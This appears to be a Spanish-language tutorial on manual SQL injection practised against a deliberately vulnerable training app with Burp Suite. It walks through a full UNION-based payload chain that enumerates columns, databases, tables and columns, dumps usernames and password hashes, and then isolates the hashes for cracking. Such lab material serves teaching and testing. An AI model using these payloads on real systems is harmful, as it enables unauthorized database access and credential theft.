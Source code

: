 
---------
Las explotaciones manuales son aquellas realizadas a través de las capacidades manuales del atacante y que no derivan del uso de un script. Para practicar, existe el siguiente repositorio de GitHub que contiene ejercicios de inyección SQL:

[https://github.com/appsecco/sqlinjection-training-app](https://github.com/appsecco/sqlinjection-training-app)

Para acceder, el usuario y la contraseña son `admin` y `admin`. Puedes comprobar la vulnerabilidad ingresando una comilla (`'`) en la búsqueda de productos, lo cual puede romper la consulta y permitir la concatenación de otros comandos de inyección SQL.

En la explotación manual, se utiliza Burp Suite en la pestaña de Repeater. Primero, envía la petición a esta pestaña y luego selecciona "Send" y "Render". Además, en el Repeater, aparte del botón "Send", puedes utilizar `CTRL+SPACE` para enviar la petición más fácilmente.

Para enumerar cuántas columnas están operativas, ejecuta la siguiente cadena, variando el número de columnas hasta que no te aparezca un error. Esto te permitirá identificar las columnas operativas. Algunos ejemplos de explotaciones manuales usando [[SQLI]] son: 

```bash
searchitem=test' order by 5-- -
```

Luego, editando el comando a:

```bash
searchitem=test' union select 1,2,3,4,5-- -
```

Podemos ver que la inyección de código ahora nos muestra esos números. Posteriormente, para saber en qué base de datos estamos, lo hacemos con:

```bash
searchitem=test' union select 1,2,database(),4,5-- -
```

Posteriormente, si queremos saber el usuario al que le pertenece esa base de datos, lo hacemos con:

```bash
searchitem=test' union select 1,2,user(),4,5-- -
```

Ahora, si queremos ver todas las bases de datos disponibles, lo hacemos con:

```bash
searchitem=test' union select 1,2,schema_name,4,5 from information_schema.schemata-- -
```

Para ver las tablas que están disponibles en esa base de datos, hacemos lo siguiente:

```bash 
searchitem=test' union select 1,2,table_name,4,5 from information_schema.tables where table_schema='sqlitraining'-- -
```

Ahora, si queremos ver las columnas asociadas a esa tabla, lo que hacemos es lo siguiente:

```bash 
searchitem=test' union select 1,2,column_name,4,5 from information_schema.columns where table_schema='sqlitraining' and table_name='users'-- -
```

Posteriormente, si queremos ver los campos de usuario y contraseña, haremos lo siguiente:

```bash 
searchitem=test' union select 1,username,password,4,5 from users-- -
```

Si queremos concatenar para que sea más fácil copiar un solo hash en MD5, haremos lo siguiente:

```bash
searchitem=test' union select 1,2,group_concat(username,0x3a,password),4,5 from users-- -
```

En donde la parte de `0x3a` es la ejemplificación de los dos puntos (`:`) en hexadecimal, que es interpretado por la base de datos. Así, en el modo pretty de Burp Suite, podemos copiar la concatenación en un solo hash disponible.

Una vez copiadas las contraseñas en un archivo creado en `nvim`, en la terminal de comandos podemos aplicar una sustitución como:

```Nvim
%s/,\r/g
```

Donde la sustitución se aplica a la coma (`,`) por un retorno de carro (`\r`), y se le aplica a todo el archivo con la opción `/g`.

Ahora, con el siguiente comando, tomamos solo la parte de los hashes para después romperlos usando herramientas como hashes.com. Para extraer solo las contraseñas, ejecutamos el siguiente comando:

```bash 
cat contraseñas | awk '{print $2}' FS=":"
```

